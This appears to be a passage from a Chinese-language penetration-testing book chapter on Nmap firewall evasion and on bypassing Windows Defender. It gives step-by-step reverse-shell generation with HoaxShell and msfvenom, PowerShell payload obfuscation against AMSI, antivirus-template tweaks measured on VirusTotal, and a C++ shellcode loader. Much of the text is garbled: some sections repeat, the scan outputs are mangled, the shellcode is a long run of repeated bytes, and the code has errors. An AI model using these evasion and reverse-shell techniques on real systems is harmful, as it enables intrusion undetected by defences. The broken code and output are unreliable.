Not shown: 918 filtered ports (no-response)
STATE SERVICE PORT
80/tcp open http
135/tcp open ms-rpc
1481/tcp open msnq
2183/tcp open zephry-clt
2105/tcp open eklogin
2107/tcp open msnq-mgmt
3389/tcp open ms-web-server
5357/tcp open wsadpi
8443/tcp open https-alt
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address (host up) scanned in 4.46 seconds
```

图 9.7：自定义包创建 (Data-length)

2. `--data-string` 命令允许在数据包中添加特定字符串，从而包含自定义内容。要利用此功能，如图 9.8 所示，执行命令 `nmap --data-string <string> targetIP`：

```bash
ummeedel@kali:~/Desktop
$ sudo nmap --data-string "meel book" 192.168.29.240
Starting Nmap 7.92 (https://nmap.org ) at 2023-07-02 07:32 EDT
Nmap scan for 192.168.29.240
Host is 1 IP address (0.00012 latency).
Not shown: 998 (filtered) tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
1681/tcp open msnmp
2183/tcp open rphayr-clt
2105/tcp open eklogin
2107/tcp open ms-mgmt
3389/tcp open ms-wbt-server
5357/tcp open wsdapi
8443/tcp open https
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address (host up) scanned in 4.95 seconds
```

图 9.8: 自定义数据包创建（Data-string）

3. 另一方面，`--data-command` 通过提供十六进制格式的数据，允许包含包括二进制内的多种格式自定义数据。要利用此功能，如图 9.9 所示，执行命令 `nmap --data <hex string>`：

```bash
ummeedel@kali:~/Desktop
$ sudo nmap --data 756d056432333 192.168.29.240
[sudo] password for ummeedel
Starting Nmap 7.92 (https://nmap.org ) at 2023-07-02 08:45 EDT
Nmap scan for 192.168.29.240
Host is 1 IP address (0.00122 latency).
Not shown: 998 (filtered) tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
1681/tcp open msnmp
2183/tcp open rphayr-clt
2105/tcp open eklogin
2107/tcp open ms-mgmt
3389/tcp open ms-wbt-server
5357/tcp open wsdapi
8443/tcp open https
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address (host up) scanned in 4.33 seconds
```

图 9.9: 自定义数据包创建（Data）

# Nmap 脚本引擎脚本

Nmap 脚本引擎 (NSE) 脚本允许利用定制的脚本来绕过防火墙限制并发现漏洞。这些脚本涵盖了数据包分片、源端口操纵、IP 地址欺骗等专门设计用于绕过防火墙的方法。要执行脚本，如图 9.10 所示，使用命令 `nmap --script=firewall-bypass targetIP`：

```bash
$ user0@kali:~/Desktop
$ sudo nmap --script=firewall-bypass 192.168.29.240
Starting Nmap 7.92 (https://nmap.org ) at 2023-07-02 08:07:42 EDT
Nmap scan report for 1 host (192.168.29.240)
Host is up (0.00082s latency).
Not shown: 99 filtered ports (no response)
PORT   STATE
80/tcp open http
443/tcp open https
139/tcp open msrpc
445/tcp open rephry-clt
2181/tcp open ekolog
3109/tcp open wget
3389/tcp open ms-bt-server
5357/tcp open wapdi
8043/tcp open https
MAC Address: 00:29:9F:7A:5D (VMware)
Nmap done: 1 IP address (1 host) scanned in 6.27 seconds
```

图 9.10: Nmap NSE 脚本

> 注意：在进行防火墙绕过侦察时，对目标进行深入研究、采用隐蔽扫描技术、加密和隧道方法、规避基于特征的检测并熟练地操纵网络流量至关重要。

## 绕过 Windows Defender

Windows 系统带有名为 Windows Defender 的内置安全防护。在本节中，我们的目的是绕过 Windows Defender 的检测能力并建立反向连接。为了说明这一点，让我们考虑这样一个场景：作为攻击者，已经获得了受害者组织内 Windows 10 工作站的低权限访问。该系统的 Windows Defender 正在运行并开启了所有保护措施。我们的目标是执行多个恶意脚本进行枚举和横向移动，这些操作可能会被 Defender 拦截。

我们将分两个阶段探索这一概念。第一阶段涉及生成通用载负载并评估其是否被安全措施拦截。第二阶段，我们将采用高级方法生成一个完全不可检测（FUD）状态的载负载，允许我们绕过安全控制。

# 阶段 1：探索 Windows 10 上反向连接的基本方法

在本节中，我们将利用 `msfvenom` 使用基本方法生成反向连接载负载。让我们探索下面的分步方法：

1. 首先，让我们检查 Windows Defender 的启用和更新状态，如图 9.11、9.12 和 9.13 所示：

参考下方的图 9.11，该图展示了作为目标的 Windows 10 系统：


> 图 9.11: Windows 10

图 9.12 显示了 Windows Defender 的当前状态：


> 图 9.12: Windows 10

图 7.13 显示了 `Windows Defender` 的当前状态，展示了状态：


> 图 9.13: Windows 10

接下来，使用命令 `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe` 创建载负载，如图 9.14 所示：

```
ummeedel@kali:/Desktop
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.29.240 LPORT=4444 -f exe -o payload.exe
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
1681/tcp open msnmp
2183/tcp open rphayr-clt
2105/tcp open eklogin
2107/tcp open ms-mgmt
3389/tcp open ms-wbt-server
5357/tcp open wsdapi
8443/tcp open https
MAC Address: 00:0C:29:9F:7A:5D (VMware)
```

图 9.14: 自定义载负载创建

3. 通过运行 `python3 -m http.server 8080` 运行 Apache 服务器以方便传输，如图 9.15 所示：

```
ummeedel@kali:~~/Desktop
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

图 9.15: 运行 Apache 服务器

4. 现在，在目标机器上打开浏览器并访问 `http://192.168.29.240:8080/payload.exe` 下载载负载，如图 9.16 所示：

图 9.16: 下载载负载

5. 在此阶段，我们观察到 `Windows Defender` 在执行之前就拦截了载负载。因此，我们无法通过这种方法执行反向连接。

图 9.17: `Windows Defender` 拦截了载负载

# 阶段 2：使用 `hoaxshell` 和 `AMSI` 触发器绕过 `Windows Defender`

## 3. 在攻击者机器（Kali Linux）上下载 `HoaxShell`，使用 `wget`

`https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip` 命令，如图 9.20 所示：

```
(ummedeel@kali)~~/Desktop
wget https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip
--2023-07-02 01:58:37-- https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip
Resolving github.com... 200
Connecting to github.com [142.250.190.46]:443--20.27.81:443 connected.
HTTP request sent, receiving... 302
Location: https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip [following]
--2023-07-02 01:58:38-- https://github.com/t31machus/hoaxshell/hoaxshell/archive/refs/heads/main.zip
Resolving github.com... 200
Connecting to github.com [142.250.190.46]:443--20.27.71:443 connected.
HTTP request sent, receiving... 200
Length: unspecified [application/zip]
Saving to: 'main.zip'
main.zip ==
--2023-07-02 01:58:39 (85.2 MB) -- 'main.zip' saved [307628]
```

图 9.20: 下载 `HoaxShell`

## 4. 进入 `HoaxShell` 文件夹并执行命令

`hoaxshell.py -s 192.168.29.15 -r "Authorization"` 生成反向 shell 载荷。最后，`hoaxshell` 将自动启动监听器，无需使用 `Netcat` 或 `Metasploit` 工具启动单独的监听器。见图 9.21：

```
(ummedeel@kali)~~/Desktop/hoaxshell-main
$ python hoaxshell.py -s 192.168.29.15 -r "Authorization"
HOAXSHELL
reverse shell payload:
[INFO] Generating reverse shell payload...
[INFO] 192.168.29.15:4444 -> $client=New-Object System.Net.Sockets.TCPClient("192.168.29.15",4444);
$stream=$client.GetStream();
$reader=New-Object System.IO.StreamReader($stream);
$writer=New-Object System.IO.StreamWriter($stream);
$writer.AutoFlush=$true;
while($true){
  $data=$reader.ReadLine();
  if($data -le $null){break}
  $writer.WriteLine("PS " + (env:pwd).path + ">> ");
  $tcp=Start-Process powershell.exe -Argument " "ExecutionPolicy Bypass -NoProfile -Window Hidden -Command \$($([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($data))))" - -Wait -PassThru;
}
[INFO] Type "help" to get a list of the available prompt.
[INFO] Waiting for connection on port 4444...
[INFO] Awaiting payload execution to initiate session...
hoaxshell >
```

图 9.21: 生成反向 shell 载荷

## 5. 复制原始载荷脚本并进入测试 Windows 10 机器上的 `AMSI Trigger` 文件夹。创建一个文本文件，保存代码，并将其保存为 `PowerShell` 脚本 `.ps1`，如图 9.22 所示：

此电脑 > 桌面 > `AMSI Trigger`

| 名称 | 修改日期 | 类型 | 大小 |
| --- | --- | --- | --- |
| `AMSITrigger_x64.exe` | 2023/7/2 上午 11:17 | 应用程序 | 27 KB |
| `winpayload.ps1` | 2023/7/2 上午 11:33 | Windows PowerS... | 1 KB |

**图 9.22**: 复制原始载荷脚本到测试机器

在 `PowerShell` 中运行命令 `AMSITrigger_x64.exe -i \winpayload.ps1` 以验证脚本是否被 `AMSI` 触发。在这种情况下，它被检测到了。你可能需要临时禁用测试机器上的 `Windows Defender` 以保存载荷并进行必要的检查。见**图 9.23**

```
Windows PowerShell
Invoke-Expression -ScriptBlock (Get-Content \-AMSITrigger_x64.exe \winpayload.ps1)
$i='Headers = @{"Authorization:"$i}';$r='Invoke-RestMethod -Method Post -Body $1 $i|Out-String; $n=([System.Text.Encoding]::UTF8.GetString($r)).replace('79520a71','$');[System.IO.File]::WriteAllText('C:\Users\Unknown\mspayload.ps1')
```

**图 9.23**: 验证脚本是否被 `AMSI` 检测到

为了绕过安全检测，应用三种类型的修改：

- **首先**，通过识别带有 `$` 符号的变量来修改变量，因为一切都代表变量。

- **其次**，更改标准关键字的大小写，例如将它们从小写转换为反之。

- **第三**，在任何命令的中间插入单引号（`''`）以破坏检测。

对原始载荷进行了多处更改。为了比较和增强理解，我们提供了原始代码和混淆后的代码，可以在**图 9.24** 中观察到它们。

原始脚本：

```
$=192.168.29.15:8080 -d0ad010c1-b8fa2-7950a7 -i -Invoke-WebRequest -UseBasicParsing -Uri
$s=d0ad010c1-b8fa2-Headers {"Authorization"};while($s){$s=Invoke-WebRequest -UseBasicParsing -Uri $s=d0ad010c1-b8fa2-Headers {"Authorization"}.Content;if($s.Content -ne 'None'){iex $s -ErrorAction Stop -Variable}
```

混淆脚本：

```
$=192.168.29.15:8080 -d0ad010c1-b8fa2-7950a7 -i -Invoke-WebRequest -UseBasicParsing -Uri
$s=d0ad010c1-b8fa2-Headers {"Authorization"};while($s){$s=Invoke-WebRequest -UseBasicParsing -Uri $s=d0ad010c1-b8fa2-Headers {"Authorization"}.Content;if($s.Content -ne 'None'){iex $s -ErrorAction Stop -Variable|Out-String\n[System.Text.Encoding]::UTF8.GetBytes($s)}
```

图 9.24: 原始与混淆代码


## 3. 在攻击者机器（Kali Linux）上下载 HoaxShell，使用 `wget` 命令

`https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip`，如图 9.20 所示：

```
(ummedeel@kali)~/Desktop
wget https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip
--2023-07-02 01:58:37-- https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip
Resolving github.com... 200
Connecting to github.com [142.250.190.46]:443--20.27.81:443 connected.
HTTP request sent, receiving... 302
Location: https://github.com/t31machus/hoaxshell/archive/refs/heads/main.zip [following]
--2023-07-02 01:58:38-- https://github.com/t31machus/hoaxshell/hoaxshell/archive/refs/heads/main.zip
Resolving github.com... 200
Connecting to github.com [142.250.190.46]:443--20.27.71:443 connected.
HTTP request sent, receiving... 200
Length: unspecified [application/zip]
Saving to: 'main.zip'
main.zip ==
--2023-07-02 01:58:39 (85.2 MB) -- 'main.zip' saved [307628]
```

图 9.20: 下载 HoaxShell

## 4. 进入 HoaxShell 文件夹并执行命令

`hoaxshell.py -s 192.168.29.15 -r "Authorization"` 生成反向 shell 载荷。最后，`hoaxshell` 将自动启动监听器，无需使用 `Netcat` 或 `Metasploit` 工具启动单独的监听器。见图 9.21：

```
(ummedeel@kali)~/Desktop/hoaxshell-main
$ python hoaxshell.py -s 192.168.29.15 -r "Authorization"
HOAXSHELL
reverse shell payload:
[INFO] Generating reverse shell payload...
[INFO] 192.168.29.15:4444 -> $client=New-Object System.Net.Sockets.TCPClient("192.168.29.15",4444);
$stream=$client.GetStream();
$reader=New-Object System.IO.StreamReader($stream);
$writer=New-Object System.IO.StreamWriter($stream);
$writer.AutoFlush=$true;
while($true){
  $data=$reader.ReadLine();
  if($data -le $null){break}
  $writer.WriteLine("PS " + (env:pwd).path + ">> ");
  $tcp=Start-Process powershell.exe -Argument " "ExecutionPolicy Bypass -NoProfile -Window Hidden -Command \$($([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($data))))" - -Wait -PassThru;
}
[INFO] Type "help" to get a list of the available prompt.
[INFO] Waiting for connection on port 4444...
[INFO] Awaiting payload execution to initiate session...
hoaxshell >
```

图 9.21: 生成反向 shell 载荷

## 5. 复制原始载荷脚本并进入测试 Windows 10 机器上的 AMSI Trigger 文件夹。创建一个文本文件，保存代码，并将其保存为 PowerShell 脚本 `.ps1`，如图 9.22 所示：

`此电脑 > 桌面 > AMSI Trigger`

| 名称 | 修改日期 | 类型 | 大小 |
| --- | --- | --- | --- |
| `AMSITrigger_x64.exe` | 2023/7/2 上午 11:17 | 应用程序 | 27 KB |
| `winpayload.ps1` | 2023/7/2 上午 11:33 | Windows PowerS... | 1 KB |

**图 9.22**: 复制原始载荷脚本到测试机器

在 `PowerShell` 中运行命令 `AMSITrigger_x64.exe -i \winpayload.ps1` 以验证脚本是否被 `AMSI` 触发。在这种情况下，它被检测到了。你可能需要临时禁用测试机器上的 `Windows Defender` 以保存载荷并进行必要的检查。见**图 9.23**

```
Windows PowerShell
Invoke-Expression -ScriptBlock (Get-Content \-AMSITrigger_x64.exe \winpayload.ps1)
$i='Headers = @{"Authorization:"$i}';$r='Invoke-RestMethod -Method Post -Body $1 $i|Out-String; $n=([System.Text.Encoding]::UTF8.GetString($r)).replace('79520a71','$');[System.IO.File]::WriteAllText('C:\Users\Unknown\mspayload.ps1')
```

**图 9.23**: 验证脚本是否被 AMSI 检测到

为了绕过安全检测，应用三种类型的修改：

- 首先，通过识别带有 `$` 符号的变量来修改变量，因为一切都代表变量。
- 其次，更改标准关键字的大小写，例如将它们从小写转换为大写。
- 第三，在任何命令的中间插入单引号（`''`）以破坏检测。

对原始载荷进行了多处更改。为了比较和增强理解，我们提供了原始代码和混淆后的代码，可以在**图 9.24** 中观察到它们。

原始脚本：

```
$=192.168.29.15:8080 -d0ad010c1-b8fa2-7950a7 -i -Invoke-WebRequest -UseBasicParsing -Uri
$s=d0ad010c1-b8fa2-Headers {"Authorization"};while($s){$s=Invoke-WebRequest -UseBasicParsing -Uri $s=d0ad010c1-b8fa2-Headers {"Authorization"}.Content;if($s.Content -ne 'None'){iex $s -ErrorAction Stop -Variable}
```

混淆脚本：

```
$=192.168.29.15:8080 -d0ad010c1-b8fa2-7950a7 -i -Invoke-WebRequest -UseBasicParsing -Uri
$s=d0ad010c1-b8fa2-Headers {"Authorization"};while($s){$s=Invoke-WebRequest -UseBasicParsing -Uri $s=d0ad010c1-b8fa2-Headers {"Authorization"}.Content;if($s.Content -ne 'None'){iex $s -ErrorAction Stop -Variable|Out-String\n[System.Text.Encoding]::UTF8.GetBytes($s)}
```

图 9.24: 原始与混淆代码

## 9. 将修改后的反向 shell 脚本到目标 Windows 10 机器。在 AMSI 文件夹中运行 `AMSITrigger_x64.exe -i \winpayload.ps1`，见图 9.26：

图 9.26: 运行修改后的反向 shell 脚本

## 10. 你已成功部署反向 shell 脚本到目标 Windows 10 机器。在 AMSI 文件夹中运行，见图 9.27：

```
[import] Initiating payload execution to initiate ...
[Shell] Payload execution verified!
[Shell] Stabilizing command ...
shell > hostname
DESKTOP-QOR
C:\Users\ummed> ls
```

| 模式 | 最后修改时间 | 名称 |
| --- | --- | --- |
| `d--r` | 2023/7/23 8:16 AM | `Contacts` |
| `d--r` | 2023/7/23 8:16 AM | `Desktop` |
| `d--r` | 2023/7/23 8:16 AM | `Documents` |
| `d--r` | 2023/7/22 上午 11:02 | `Downloads` |

图 9.27: 获取反向 shell

> **注意**：像 `HoaxShell` 一样，黑网上有很多开源和工具。然而，一旦这些工具或脚本出现，杀毒公司会迅速更新签名数据库和行为规则进行控制。因此，曾经有效的技术可能会失效，导致研究人员不断开发新技术。

## 杀毒规避技术和工具

杀毒规避包括恶意活动利用复杂的方法和技术来避免检测并绕过杀毒软件。主要目标是使杀毒程序难以识别或分析恶意代码或文件。

## 杀毒规避技术

杀毒软件利用基于签名、基于启发和基于行为的检测技术来识别和防止恶意。基于签名的匹配已知恶意，基于启发的分析潜在有害载荷，基于行为监控执行行为。这些技术协同防御恶意并确保系统安全。为了绕过这些检测方法，渗透测试使用各种杀毒规避技术，见表 9.1：

| 技术 | 描述 |
| --- | --- |
| 混淆 | 使用加密、随机化和操作修改代码结构，使其更难检测。 |
| 多态 | 生成具有相同功能的多个代码变体以规避签名的检测。 |
| 变态 | 每次感染都更改代码和行为，使杀毒程序难以识别。 |
| 包裹和加密 | 压缩或加密恶意软件以隐藏其真实本质并防止于分析。 |
| 根内核 | 篡改系统函数或 `API` 以隐藏恶意活动和进程。 |
| 零日漏洞 | 在杀毒厂商开发出相应的签名或更新之前，利用未知漏洞。 |

表 9.1: 杀毒规避技术

# 基准载荷 (Baseline payload)

1. 为了建立基准，我们将使用命令 `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe basepayload.exe` 为 32 位 Windows 系统生成标准的反向 shell 负载，如图 9.28 所示：


```
(metasploit@kali) ~ /dev/null
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe basepayload.exe
[-] No payload was selected, choosing Msf::Module::Payload::Windows from the payload
[-] No arch selected, encoding: x86 from the payload
[-] No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe: 73082 bytes
```

图 9.28: 生成标准的 `msfvenom` 反向 `shell` 负载

2. 随后，我们将生成的载荷上传到 `VirusTotal` 以评估其检率。如图 9.29 所示，检测比例为 56/70：


图 9.29: 将载荷上传到 `VirusTotal`

3. 在生成负载的过程中，我们自定义的 `shellcode` 被注入到模板二进制文件中。为了观察这一点，执行命令 `cd /usr/share/metasploit-framework/data/templates/src/pe/exe` 和 `cat template.c`，如图 9.30 所示，它展示了使用默认模板二进制文件生成的早期载荷：

```
ummedeel@kali:~/Desktop
$ cd /usr/share/metasploit-framework/data/templates/src/pe/exe

ummedeel@kali:~/usr/share/metasploit-framework/data/templates/src/pe/exe
$ cat template.c
#include <stdio.h>

#define SCSISIZE 4096
char payload[SCSISIZE] = "PAYLOAD;";

char comment[712] = ""

int main(int argc, char *argv) {
    (*void (*()) payload)();
    return(0);
}
```

图 9.30: 模板二进制文件

## 技术 1

1. 为了进一步降低 `VirusTotal` 的检出，我们可以对代码进行一些更改，特别是在内存分配大小方面。在内存分配和 `char` 尺寸上实现修改，如图 9.31 所示：

```
ummedeel@kali:~/usr/share/metasploit-framework/data/templates/src/pe/exe\File Actions Edit View Help
GNU nano 7.2
template.c
#include <stdio.h>
#define SCSISIZE 5500
char payload[SCSISIZE] = "PAYLOAD;"

char comment[512] = ""

int main(int argc, char *argv) {
    (*void (*()) payload)();
    return(0);
}
```

图 9.31: 代码更改

2. 为了更好地掌握工作流程，让我们重新编译标准模板并使用新编译的模板重新生成载荷。执行命令集请参考图 9.32：

命令如下：

- a. `gcc -x86_64-win32 template.c -o avbypass.exe`
- b. `sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -x /usr/share/metasploit-framework/data/templates/src/pe/avbypass.exe -f exe > /home/ummedeel/Desktop/payload.exe`

图 9.32: 重新编译标准模板

3. 代码调整后，将新生成的载荷上传到 `VirusTotal` 进行评估。图 9.33 显示检测率降低为 48/71：


图 9.33: 将生成的载荷上传到 `VirusTotal`

## 技术 2

1. 现在，让我们深入到一种更定制的方法来构建二进制。执行命令 `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f c` 利用 `msfvenom` 导出反向 `shell` 载荷，如图 9.34 所示：

```
~/Desktop
- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f c
- No payload was selected, choosing windows/shell::Windows from the payload
- No encoder specified, selecting none from the payload
No encoder specified, output raw payload
Final size: 216 bytes
Final size of file: 1392 bytes
unsigned char payload[] =
  "\xeb\x16\x5d\xd8\x91\x63\x68\x63\x68\x63\x68\x63\x64\x64\x64\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\x63\.63.x63.x63\.63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63.x63\
};
```

图 9.34: 使用 `msfvenom` 生成原始载荷

2. 为了创建一个二进制并生成自定义载荷，我们将使用 `Visual Studio 2022`（社区版）。在你的系统中，导航到创建项目，选择空项目，右键点击源代码添加新项，并命名为 `main.cpp`，如图 9.35 所示：

图 9.35: 创建新项目

3. 标准模板很容易被检测。通过使用自定义模板，我们可以克服这一点：

```cpp
#include <stdio.h>
#include <windows.h>

unsigned const payload[] = "";
size_t size = 0;
int main(int argc, char** argv) {
    printf("This is a random string!");
    code = (char*)VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(code, payload, size);
    ((void())code)();
    return(0);
}
```

图 9.36: 空项目

4. 在 `main.cpp` 文件中，粘贴以下代码，如图 9.37 所示：

```cpp
#include <stdio.h>
#include <windows.h>

unsigned char payload[] = {
	0xeb, 0x1d, 0x5e, 0x89, 0x76, 0xf0, 0x68, 0x00, 0x00, 0x00,
	0x68, 0x00, 0x00, 0x00, 0x6a, 0x01, 0xff, 0x6a, 0x04, 0x65, 0xff, 0xd5,
